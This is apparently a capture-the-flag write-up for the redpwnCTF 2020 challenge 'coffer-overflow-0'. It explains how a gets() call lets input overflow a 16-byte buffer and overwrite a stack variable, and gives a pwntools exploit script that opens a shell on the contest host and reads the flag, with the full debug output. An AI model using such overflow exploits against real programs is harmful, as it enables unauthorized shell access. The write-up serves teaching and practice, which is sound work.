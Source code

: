 # coffer-overflow-0
[![Generic badge](https://img.shields.io/badge/pwn-buffer%20overflow-<COLOR>.svg)](https://shields.io/)

# Challenge
![challenge](images/challenge.png)

# Pwn

The c code is:

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code != 0) {
    system("/bin/sh");
  }
}
```

It uses the vulnerable function `gets`. The objective is to overflow the buffer of `name` to overwrite the variable `code` in the stack frame of the main function.

```assembly
Dump of assembler code for function main:
   0x0000000000400677 <+0>:     push   rbp
   0x0000000000400678 <+1>:     mov    rbp,rsp
   0x000000000040067b <+4>:     sub    rsp,0x20
   0x000000000040067f <+8>:     mov    QWORD PTR [rbp-0x8],0x0  ; initialize 'code' with 0
   0x0000000000400687 <+16>:    mov    rax,QWORD PTR [rip+0x2009d2]        # 0x601060 <stdout@@GLIBC_2.2.5>
   0x000000000040068e <+23>:    mov    esi,0x0
   0x0000000000400693 <+28>:    mov    rdi,rax
   0x0000000000400696 <+31>:    call   0x400560 <setbuf@plt>
   0x000000000040069b <+36>:    mov    rax,QWORD PTR [rip+0x2009ce]        # 0x601070 <stdin@@GLIBC_2.2.5>
   0x00000000004006a2 <+43>:    mov    esi,0x0
   0x00000000004006a7 <+48>:    mov    rdi,rax
   0x00000000004006aa <+51>:    call   0x400560 <setbuf@plt>
   0x00000000004006af <+56>:    mov    rax,QWORD PTR [rip+0x2009ca]        # 0x601080 <stderr@@GLIBC_2.2.5>
   0x00000000004006b6 <+63>:    mov    esi,0x0
   0x00000000004006bb <+68>:    mov    rdi,rax
   0x00000000004006be <+71>:    call   0x400560 <setbuf@plt>
   0x00000000004006c3 <+76>:    lea    rdi,[rip+0xce]        # 0x400798
   0x00000000004006ca <+83>:    call   0x400550 <puts@plt>
   0x00000000004006cf <+88>:    lea    rdi,[rip+0x112]        # 0x4007e8
   0x00000000004006d6 <+95>:    call   0x400550 <puts@plt>
   0x00000000004006db <+100>:   lea    rax,[rbp-0x20]  ; gets() stores the input starting from rbp-0x20
   0x00000000004006df <+104>:   mov    rdi,rax
   0x00000000004006e2 <+107>:   call   0x400580 <gets@plt>
   0x00000000004006e7 <+112>:   cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004006ec <+117>:   je     0x4006ff <main+136>
   0x00000000004006ee <+119>:   lea    rdi,[rip+0x11e]        # 0x400813
   0x00000000004006f5 <+126>:   mov    eax,0x0
   0x00000000004006fa <+131>:   call   0x400570 <system@plt>
   0x00000000004006ff <+136>:   mov    eax,0x0
   0x0000000000400704 <+141>:   leave
   0x0000000000400705 <+142>:   ret
```

The stack frame is:

```
Address           Stack
             /-------------\    
rbp-0x20     |  name[16]   | <- rsp
             |             |
             :             :
             |             |
             +-------------+
rbp-0x8      |  code = 0   |
             |             |
             :             :
             |             |
             +-------------+
rbp          |             | <- rbp
```
`name` occupies just 16 bytes (until `rbp-0x10`) but for stack alignment `code` is stored starting from `rbp-0x8` and occupies 8 bytes because it is a **long** (QWORD).

From the python3 terminal:

```python
>>>from pwn import *
>>>ELF('./coffer-overflow0')

[*] '/root/coffer-overflow-0/coffer-overflow-0'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

There is **no canary** so it is possible to overflow the variable `name` and overwrite `code`.

The exploit is:

```python
from pwn import *

context.log_level = 'debug'

#p = process('./coffer-overflow-0')
p = remote('2020.redpwnc.tf', 31199)

code = p64(1)  # set a long variable (8 bytes) to 1
name = bytes('a'*(0x20-0x8), 'utf-8')  # set 24 (0x18) bytes to 'a' -> overwrite name array
payload = name + code

p.sendlineafter('What do you want to fill your coffer with?', payload)
p.interactive()
```

Running the script on the remote process I obtained the following output:

```bash
root@DESKTOP-8NAFLOJ:~/coffer-overflow-0# python3 exploit.py
[+] Opening connection to 2020.redpwnc.tf on port 31199: Done
[DEBUG] Received 0x4b bytes:
    b'Welcome to coffer overflow, where our coffers are overfilling with bytes ;)'
[DEBUG] Received 0x2c bytes:
    b'\n'
    b'What do you want to fill your coffer with?\n'
[DEBUG] Sent 0x21 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    00000010  61 61 61 61  61 61 61 61  01 00 00 00  00 00 00 00  │aaaa│aaaa│····│····│
    00000020  0a                                                  │·│
    00000021
[*] Switching to interactive mode

$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x50 bytes:
    b'Makefile\n'
    b'bin\n'
    b'coffer-overflow-0\n'
    b'coffer-overflow-0.c\n'
    b'dev\n'
    b'flag.txt\n'
    b'lib\n'
    b'lib32\n'
    b'lib64\n'
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x22 bytes:
    b'flag{b0ffer_0verf10w_3asy_as_123}\n'
flag{b0ffer_0verf10w_3asy_as_123}
```

## Flag
`flag{b0ffer_0verf10w_3asy_as_123}`